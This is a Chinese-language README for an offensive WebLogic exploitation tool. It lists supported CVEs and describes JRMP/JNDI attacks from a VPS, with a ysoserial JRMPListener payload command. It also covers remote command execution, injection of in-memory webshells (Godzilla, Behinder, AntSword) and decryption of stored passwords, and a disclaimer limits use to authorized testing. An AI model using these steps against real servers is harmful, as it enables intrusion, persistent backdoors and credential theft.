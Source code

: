# WeblogicTool
## 简介
迫于目前现有的weblogic工具没怎么更新、payloayjdk适用版本等问题，所以基于superman18、sp4zcmd等项目，写一个weblogic工具，工具运行版本要求jdk 8

## 免责声明
本工具仅能在取得足够合法授权的企业安全建设中使用，在使用本工具过程中，您应确保自己所有行为符合当地的法律法规。 如您在使用本工具的过程中存在任何非法行为，您将自行承担所有后果，本工具所有开发者和所有贡献者不承担任何法律及连带责任。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。 您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束

## 支持漏洞
```
CVE-2023-21839（JNDI）
CVE-2020-2551（JRMP）
CVE-2020-2551
CVE-2020-2555
CVE-2020-2883
CVE-2020-14882未授权访问
CVE-2018-2894
CVE-2018-2628（JRMP）
CVE-2018-2893（JRMP）
CVE-2018-3245（JRMP）
CVE_2018_3252（JRMP）
CVE_2018_3191
CVE-2016-3510
CVE-2016-0638
CVE-2017-10271
CVE-2017-3248（JRMP）
CVE-2015-4852
......
```

## 漏洞检测
支持最近的CVE-2023-21839漏洞T3&&IIOP，JNDI和JRMP类型漏洞需要填写自定义的dnslog地址，防止waf拦截常用的dnslog域名

## JRMP攻击
jrmp类型的漏洞只能使用jrmp模块进行攻击，在vps上使用yso启动jrmp，工具中填入vps的jrmp地址即可  

```java -cp ./ysoserial.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections3 'touch /tmp/1.txt' ```
![image](https://user-images.githubusercontent.com/49397311/232307976-164f5777-f848-492c-b586-c50b503dfd5d.png)

## 命令执行
先检测漏洞是否存在
![image](https://user-images.githubusercontent.com/49397311/232307989-9ae53a16-6d05-4bf5-8267-fc215f331e4c.png)
  
  存在漏洞，可以执行命令，支持自定义返回数据编码格式
  ![image](https://user-images.githubusercontent.com/49397311/232307999-46dea56c-c597-4f69-85ac-d861d352fd83.png)

## JNDI 
与jrmp漏洞使用方法一样，需要启动vps服务端   

## 内存马注入
目前支持哥斯拉4 Servlet Filter、冰蝎3.11 Servlet、蚁剑Custom Filter
![image](https://user-images.githubusercontent.com/49397311/232308056-fb517990-bf79-4228-8130-5c33cb262048.png)  
![image](https://user-images.githubusercontent.com/49397311/232308062-0bb61d73-a56c-43ed-b944-6f5d23ed8ea8.png)

## 密码解密
说明
1. 支持Weblogic 3DES和AES解密 
2. 由于bcprov jar包签名问题，所以首次解密会出现异常：PBEWITHSHAAND128BITRC2-CBC SecretKeyFactory not available。需要手动下载 ```https://repo1.maven.org/maven2/org/bouncycastle/bcprov-jdk15on/1.56/bcprov-jdk15on-1.56.jar``` 然后将文件存在本地安装的JDK路径下，例如 ```E:\Java\jdk1.8.0_60\jre\lib\ext```
![image](https://user-images.githubusercontent.com/49397311/232308083-058b42bb-3360-43ad-b90b-d9472ccfcdc0.png)





